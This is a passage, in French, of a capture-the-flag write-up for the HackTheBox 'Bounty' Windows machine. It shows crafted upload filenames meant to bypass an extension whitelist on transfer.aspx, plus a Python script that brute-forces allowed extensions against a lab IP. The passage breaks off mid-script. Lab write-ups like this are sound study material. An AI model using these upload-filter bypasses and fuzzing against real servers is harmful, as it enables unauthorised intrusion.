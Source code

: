 # Solution du CTF Bounty de HackTheBox

Introduction
------------

On continue avec une autre machine de [HackTheBox.eu](https://www.hackthebox.eu/), toujours sous Windows.  

Ce CTF a été intéressant et m'a permis de me pencher sur un cas particulier d'exploitation d'un script d'upload. L'escalade de privilège n'a pas montré de réticences particulières comme vous le verrez par la suite.

Obvious vulnerability is obvious
--------------------------------

Un port 80 ouvert, rien d'intéressant sur le site sauf si on fouille avec un directory buster qui nous trouve un script *transfer.aspx* et un répertoire *uploadedfiles* non lisible (403 pour le listing).  

Le formulaire d'upload présent sur *transfer.aspx* semble disposer d'une whitelist d'extensions (un fichier avec l'extension *.nawak* est refusé).  

On se rend assez vite compte que l'équivalent d'un *basename()* pour Windows est appliqué sur le nom d'un fichier ainsi si on modifie la requête d'upload (par exemple avec ZAP) pour donner le nom de fichier *ratata.aspx/toto.png* on se retrouve avec un *toto.png*. Il en va de même avec *ratata.aspx:toto.png*.  

J'ai essayé de jouer avec les *Alternate Data Streams* mais cela ne m'a amené nul part...  

J'ai alors choisit de brute-forcer les extensions de la whitelist, ce qui m'a cette fois dirigé vers le bon chemin (le dictionnaire utilisé est présent sur *Kali Linux*) :  

```python
import sys
from os.path import basename

import requests
from bs4 import BeautifulSoup

filename = sys.argv[1]
fake_filename = sys.argv[2]

failed = set()
succeed = set()
errored = set()

with open("/usr/share/golismero/wordlist/fuzzdb/Discovery/PredictableRes/raft-large-extensions-lowercase.txt", encoding="utf-8", errors="ignore") as fd:
    for line in fd:
        ext = line.strip()

        fake_filename = sys.argv[2] + ext
        print("Using '{}' as filename".format(fake_filename), end=' ')
        data = {"btnUpload": "Upload"}
        files = {
            #"FileUpload1": (basename(filename), open(filename).read(), "image/png")
            "FileUpload1": (fake_filename, open(filename).read(), "image/png")
        }

        sess = requests.session()
        response = sess.get("http://10.10.10.93/transfer.aspx")
        soup = BeautifulSoup(response.text, "html5lib")
        for input_field in soup.find_all("input", attrs={"name": True, "type": "hidden", "value": True}):
            data[input_field["name"]] = input_field["value"]

```